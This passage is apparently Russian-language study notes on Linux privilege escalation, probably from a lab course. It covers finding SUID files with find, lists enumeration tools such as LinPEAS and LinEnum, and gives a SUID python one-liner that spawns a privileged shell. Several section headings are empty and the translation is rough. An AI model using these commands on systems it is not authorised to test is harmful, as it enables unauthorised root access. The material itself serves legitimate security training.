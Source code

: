 Найдите конкретные разрешения на файл:

Ниже приведен короткий пример, используемый для поиска файлов, в которых есть бит Suid набор. Бит SUID позволяет файлу запускать с уровнем привилегий аккаунта, которая его владеет, а не с учетной записью, которая его запускает. Это допускает интересный путь эскалации привилегий, мы увидим более подробную информацию о задаче 6. Приведенный ниже пример приведен для завершения предмета на «Найти» командование

- `find / -perm -u=s -type f 2>/dev/null`: Найти файлы с Suid бит, который позволяет нам запустить файл с более высоким уровнем привилегий чем текущий пользователь.

### Auto enumeration

Несколько инструментов могут помочь вам сэкономить время во время перечисления процесс. Эти инструменты следует использовать только для экономии времени, зная, что они может пропустить некоторые привилегии эскалационных векторов. Ниже приведен список Популярные инструменты перечисления Linux со ссылками на соответствующий GitHub Репозитории.

Среда целевой системы будет влиять на инструмент, который вы будете иметь возможность использовать. Например, вы не сможете запустить инструмент Написано на Python, если он не установлен в целевой системе. Этот Поэтому было бы лучше познакомиться с несколькими, а не Наличие одного инструмента.

- **LinPeas**: [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- **LinEnum:** [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)[](https://github.com/rebootuser/LinEnum)
- **LES (Linux Exploit Suggester):** [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
- **Linux Smart Enumeration:** [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
- **Linux Priv Checker:** [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)

## SUID

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

##### python

```bash
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

## Capabilities

## Cron jobs

## PATH

